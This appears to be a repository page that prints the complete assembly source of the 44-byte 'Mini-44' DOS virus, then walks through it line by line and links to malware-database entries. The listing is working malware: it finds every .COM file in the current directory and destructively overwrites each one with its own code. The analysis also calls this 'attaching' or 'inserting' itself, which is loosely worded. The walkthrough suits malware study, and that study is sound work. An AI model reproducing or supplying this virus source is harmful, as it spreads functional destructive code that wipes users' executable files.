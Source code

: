 # Mini-44 DOS Virus

## Source Code
```assembly
;44 byte virus, destructively overwrites all the COM files in the
;current directory.
;
;(C) 1994 American Eagle Publications, Inc.

.model small
.code

FNAME   EQU     9EH             ;search-function file name result

ORG     100H

START:
        mov     ah,4EH          ;search for *.COM (search first)
        mov     dx,OFFSET COM_FILE
        int     21H

SEARCH_LP:
        jc      DONE
        mov     ax,3D01H        ;open file we found
        mov     dx,FNAME
        int     21H

        xchg    ax,bx           ;write virus to file
        mov     ah,40H
        mov     cl,42           ;size of this virus
        mov     dx,100H         ;location of this virus
        int     21H

        mov     ah,3EH          ;close file
        int     21H

        mov     ah,4FH          ;search for next file
        int     21H
        jmp     SEARCH_LP

DONE:
        ret                     ;exit to DOS

COM_FILE DB      '*.COM',0      ;string for COM file search

END START
```
## Analyze

1.  **Setup and Initial Search**:
    
    -   `.model small`: This directive tells the assembler to use the small memory model, which is common in DOS where the code and data segments are expected to fit within a single 64KB segment.
    -   `FNAME EQU 9EH`: This sets the label `FNAME` to the hexadecimal value `9EH`, which is used as an offset for where the file name is stored in memory after a file search.
    -   `ORG 100H`: This sets the code's origin to address `0100H`, a common practice for DOS .COM programs, as the first 256 bytes are reserved for the Program Segment Prefix (PSP).
2.  **File Search and Opening**:
    
    -   The program begins by searching for `.COM` files using DOS interrupt `21H` with function `4EH` (find first file).
    -   The file name pattern `*.COM` is used for the search.
    -   If a file is found, the program then opens it using function `3D01H` (open file for writing).
3.  **Modifying the File**:
    
    -   The program appears to write 42 bytes (`CL = 42`) of data from its own code (`DS:0100H`) into the beginning of the found file. This is typically characteristic of a computer virus that replicates by attaching itself to other executable files.
    -   After writing, it closes the file using function `3EH` (close file handle).
4.  **Continuing the Search**:
    
    -   The program then searches for the next `.COM` file using function `4FH`.
    -   If another file is found, the loop continues; otherwise, the program exits.
5.  **Termination**:
    
    -   The program ends with a `ret` instruction, returning control to DOS.

## Details


### 1. Initial Setup

`.model small` 

-   This tells the assembler to use a small memory model, suitable for DOS programs where both code and data segments are combined and should not exceed 64KB.

`FNAME   EQU     9EH             ;search-function file name result` 

-   `FNAME` is defined as a constant with the value `9EH`. This is used as an offset in the Program Segment Prefix (PSP) where DOS stores the filename of the last file found.

`ORG     100H` 

-   Sets the origin of the code to memory address `0100H`. DOS .COM programs start at this offset, following the 256-byte PSP.

### 2. File Search and Opening

```assembly
START:
        mov     ah,4EH          ;search for *.COM (search first)
        mov     dx,OFFSET COM_FILE
        int     21H
```

-   Sets up a call to DOS interrupt `21H` with function `4EH` (find first file matching a pattern). The pattern `*.COM` is provided by the address in `DX`.

```assembly
SEARCH_LP:
        jc      DONE            ;jump to DONE if no file is found
        mov     ax,3D01H        ;open file for writing
        mov     dx,FNAME
        int     21H
```
-   If a file is found, this part tries to open it for writing. `3D01H` in `AX` is the DOS function to open a file. The filename is pointed to by `DX`.

### 3. Writing to the File

```assembly
 xchg    ax,bx           ;swap file handle to BX
        mov     ah,40H          ;prepare to write to the file
        mov     cl,42           ;size of data to write
        mov     dx,100H         ;data location (start of the program)
        int     21H
```
-   After opening the file, it writes 42 bytes from the beginning of the program (`DS:0100H`) to the file. This is typical of a virus that replicates by inserting its code into other executables.

### 4. Closing the File and Searching for the Next File

```assembly
mov     ah,3EH          ;close file
        int     21H

        mov     ah,4FH          ;search for next .COM file
        int     21H
        jmp     SEARCH_LP
```
-   Closes the current file and searches for the next `.COM` file. If another file is found, the process repeats.

### 5. Termination
```assembly
DONE:
        ret                     ;exit to DOS
```
-   Once no more files are found, the program exits and returns control to DOS.

### 6. COM File Pattern
```assembly
COM_FILE DB      '*.COM',0      ;string for COM file search
```
-   This is the data definition for the file search pattern, `*.COM`, used by the program.

## Links

* https://www.virustotal.com/gui/file/ad5817a40a07e312c48f3eb3a3f519e0862e1a244ecfeaf961f3a093a34030f5
* https://mwdb.cert.pl/file/ad5817a40a07e312c48f3eb3a3f519e0862e1a244ecfeaf961f3a093a34030f5